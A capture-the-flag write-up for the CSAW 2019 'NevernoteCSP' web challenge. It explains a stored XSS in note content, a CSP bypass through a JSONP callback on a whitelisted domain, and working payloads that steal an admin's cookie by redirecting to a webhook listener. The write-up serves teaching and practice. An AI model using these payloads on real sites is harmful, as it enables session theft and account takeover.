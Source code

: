 ```yaml
---
title: '[RED CSAW CTF 2019] NevernoteCSP'
published: true
tags: [writeup, web, csp]
author: sAINT_Barber
category: ctf
---
```


First we are greeted with the challenge description

![alt text][image1]

We will be performing some sort of cookie stealing, and we also understand from the title that it will be pointing to a type of CSP bypass.

After creating an account and clicking around on the site the only thing you could actually do was create and upload notes.

![alt text][image2]

So, we can edit the note title and give it some content. And then we can report the post to an admin.
By this one can assume we will be doing some XSS with a cookie stealing payload to steal the admins cookie and get the flag!

The only area that does not sanitize the users input is the content area. As you can see below i have changed the content style to bold with the `<b>` tag

![alt][image3]

Now lets add a script with a simple alert!
`<script>alert('Haircuts')</script>`

![alt][image4]

Nothing came up, but we did get a warning in the dev-tools console tab

![alt][image5]

Content Security Policy is blocking the inline script, from the name 'script-src' it only accepts javascript from a source file. From there we can view the CSP in the network tab by clicking on a request and checking the headers

![alt][image6]

We can copy the policy into this site to check its' evaluation:
https://csp-evaluator.withgoogle.com/

We can see that the
`script-src 'self' cdn.jsdelivr.net *.ngs.ru` trusts domains 2 that are known to bypass CSP

![alt][image7]

After some googling i found from the cdn.jsdeliver.net domain a callback function that reflects whatever javascript you equal it as.

`https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')`

so now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')"></script>`

Lets place this in the content part of a new note and see if we bypass the CSP

And voila! We bypassed the CSP. Now we can move on to getting the admins cookie!

![alt][image8]

In general what we need to do now is report our note to the admin, wait until he/she opens our note it should redirect him/her to a malicious site that we are listening on so we can see his/her cookies in the request header.

I will be using a site called Webhook (https://webhook.site) as my listener.

We can use this javascript code to redirect the admin to our site.
`window.location.replace('malicioussite.something')`<br>
Our payload now looks like this<br>

`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762')"></script>`

Now all we need to do is add this payload then report to the admin, but if you're following along you will notice that as soon as we click on this note it will automatically redirect us to the webhooks listener (Thats what we want), and wont allow us to click the *report to admin link*. We can see the 'href' request makes: /notes/report/{note_id}, all we need to do is write down our note id and make a simple get request with that id.

Looking at the webhooks site we can see our admins request!

![alt][image9]

Perfect! Now all we need to do is use the document.cookie javascript method to print out the cookie, what i did is add the cookie to the query of the get request the admin performs on our malicious site e.g malicioussite.com/?name=sAINT_barber,

Now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762/?elaToCookie='.concat(document.cookie))"></script>`

*Note: I used the .concat() function to concatenate the document.cookie onto the query string, if you want to use the '+' sign then you will have to url encode it because the '+' in the url translates to a space.*

Now lets see if it works!

![alt][image10]

Boom! We can see in the Query strings our flag!

Note: If the cookie flag had the httpOnly flag then it would not print out with the document.cookie method.

A big Thank you to styx00! Not only did he help me complete the challenge, but also helped me understand the procedure of bypassing the CSP and Reflected XSS.

Flag: `flag{go_to_r/ProgrammerHumor_for_a_good_time}`



[image1]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image1.png
[image2]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image2.png
[image3]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image3.png
[image4]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image4.png
[image5]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image5.png
[image6]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image6.png
[image7]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image7.png
[image8]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image8.png
[image9]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image9.png
[image10]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image10.png